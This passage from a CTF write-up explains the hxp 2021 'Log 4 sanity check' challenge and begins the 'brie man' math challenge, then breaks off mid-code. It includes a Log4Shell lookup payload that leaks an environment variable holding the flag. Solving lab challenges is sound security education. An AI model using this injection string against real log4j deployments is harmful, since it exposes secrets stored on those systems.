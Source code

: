                 if (var2.toLowerCase().contains("hxp")) {
                    System.out.println(":)");
                } else {
                    System.out.println(":(");
                    var1.error("Wrong answer: {}", var2);
                }
            } catch (Exception var3) {
                System.err.println(var3);
            }

        }
    }
    ```
    * Verify that it's actually using log4j
  * Now we need to find out where is the flag, by analyzing the [Dockerfile](MSC/Log%204%20sanity%20check/Dockerfile), we can find out that the last command will set an environment variable ```FLAG``` with the value of flag
    * ```CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"```
  * After some more [searching](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/), it comes out that by using ```${env:FLAG}``` is enough for leaking environment variable's value
  * Last step is to combined it into payload that will trigger log4j to ```lookup``` , with error messages including the environment variable's value
    * ```${jndi:ldap:${env:FLAG}}```
* Flag
  * ```hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}```
#### brie man
* Description
  > Difficulty estimate: easy
  > 
  > Do you ever dream of solving a famous open question?  
  > (Now that we have your attention: Sorry, this challenge has nothing to do with Brie. 🧀)
  * [brie man-b6db7372d539e8b7.tar.xz](https://2021.ctf.link/assets/files/brie%20man-b6db7372d539e8b7.tar.xz)
  * ```nc 65.108.178.230 7904```
* Solution
  * The source code is short
    ```python
    #!/usr/bin/env sage
    import re

    if sys.version_info.major < 3:
        print('nope nope nope nope | https://hxp.io/blog/72')
        exit(-2)

    rx = re.compile(r'Dear Bernhard: Your conjecture is false, for ([^ ]{,40}) is a counterexample\.')

    s = CC.to_prec(160)(rx.match(input()).groups()[0])

    r = round(s.real())
    assert not all((s==r, r<0, r%2==0))     # boring

    assert not s.real() == 1/2              # boring
